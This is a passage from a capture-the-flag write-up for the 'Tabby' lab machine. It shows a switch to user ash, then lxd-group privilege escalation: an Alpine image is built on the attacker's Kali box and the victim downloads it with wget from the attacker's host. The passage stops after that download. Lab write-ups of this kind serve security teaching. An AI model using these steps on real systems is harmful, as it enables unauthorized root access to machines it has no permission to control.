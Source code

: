 I then try to ```ssh ash@tabby.htb``` but it didnt work seem like tabby is only allow plubic key authentication. I then decided to use ```su``` to gain access to **ash**. 
```console
tomcat@tabby:/var/lib/tomcat9$ su ash
su ash
Password: PASSWORD
ash@tabby:/var/lib/tomcat9$ cd
cd
ash@tabby:~$ ls
ls
user.txt
```


# root privillage
now time for privesc to gain root access. I try to check *SUID*, *cronjob* and ```ps aux``` not thing really intersting there. I then check ash's group by running ```id```
```console
ash@tabby:/var/lib/tomcat9$ id    
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

as you can see ash is in *lxd group*, we can use lxd or lxc to gain root. how to do that? read [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/lxd-privilege-escalation) or [here](https://reboare.github.io/lxd/lxd-escape.html). the 2nd links demonstrate expliant the process clearly, so check it out.


in general if the user is a member of lxd group = green card to root. this is what need to be done:
1. Download build-alpine => wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
2. Build alpine => bash build-alpine (as root user) [Attacker Machine]
3. import image to LXD
4. create container
5. mount host filesystem
6. Run a shell inside the container and get flag



In kali
```console 
kali@kali:~/HTB/tabby$ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine # download build-alpine
kali@kali:~/HTB/tabby$ chmod 777 build-alpine
kali@kali:~/HTB/tabby$ sudo ./build-alpine  # build it
```
now when you ```ls``` you will find now apline.tar.gz which is our image. again, use simplehttpserver to host the imgae


go back to tabby and download the image 
```console
ash@tabby:~$ wget http://<kali ip>:<port>/alpine-v3.12-x86_64-20200629_1413.tar.gz # download the image
<15.83:<port>/alpine-v3.12-x86_64-20200629_1413.tar.gz
--2020-06-29 19:04:40--  http://<kali ip>:<port>/alpine-v3.12-x86_64-20200629_1413.tar.gz
Connecting to <kali ip>:<port>... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3199162 (3.1M) [application/gzip]
Saving to: ‘alpine-v3.12-x86_64-20200629_1413.tar.gz’

alpine-v3.12-x86_64 100%[===================>]   3.05M  1.05MB/s    in 2.9s    

2020-06-29 19:04:43 (1.05 MB/s) - ‘alpine-v3.12-x86_64-20200629_1413.tar.gz’ saved [3199162/3199162]

```